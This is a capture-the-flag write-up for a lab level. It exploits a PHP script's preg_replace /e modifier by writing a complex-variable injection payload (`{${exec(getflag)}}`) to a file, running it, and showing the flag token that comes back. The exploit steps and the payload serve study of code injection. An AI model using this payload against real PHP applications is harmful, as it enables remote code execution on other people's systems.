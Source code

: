 # Level06 Solution

## Steps:
1. Connected via SSH: `ssh level06@192.168.16.128 -p 4242`
2. Found a PHP script in the home directory:
   - File: `/home/user/level06/level06.php`
   - Code:
     ```php
     #!/usr/bin/php
     <?php
     function y($m) {
         $m = preg_replace("/\./", " x ", $m);
         $m = preg_replace("/@/", " y", $m);
         return $m;
     }
     function x($y, $z) {
         $a = file_get_contents($y);
         $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
         $a = preg_replace("/\[/", "(", $a);
         $a = preg_replace("/\]/", ")", $a);
         return $a;
     }
     $r = x($argv[1], $argv[2]);
     print $r;
     ?>
     ```
3. Identified the vulnerability:
   - The `preg_replace` function uses the `/e` modifier, which allows execution of PHP code.
   - The regex `/(\[x (.*)\])/e` matches `[x ...]` and executes `y("...")` as code.
   - We can inject PHP code using complex variable syntax: `{${...}}`.
4. Created an exploit file:
   - Command: `echo '[x {${exec(getflag)}}]' > /tmp/exploit06`
5. Executed the PHP script with the exploit file:
   - Command: `./level06 /tmp/exploit06`
   - Output:
     ```
     PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
     PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
     ```
6. Obtained the token from the PHP notice: `wiok45aaoguiboiki2tuin6ub`

## Notes:
- The `/e` modifier in `preg_replace` is deprecated and dangerous because it allows code execution.
- The exploit uses `{${exec(getflag)}}` to execute the `getflag` command.
- The token is leaked in a PHP notice because `getflag` is not a defined constant, but it is executed as a shell command.

## Tools used:
- PHP code injection
- `echo` to create the exploit file
- Complex variable syntax `${...}` for code execution

## Vulnerability:
- Unsafe use of `preg_replace` with the `/e` modifier on user-controlled input.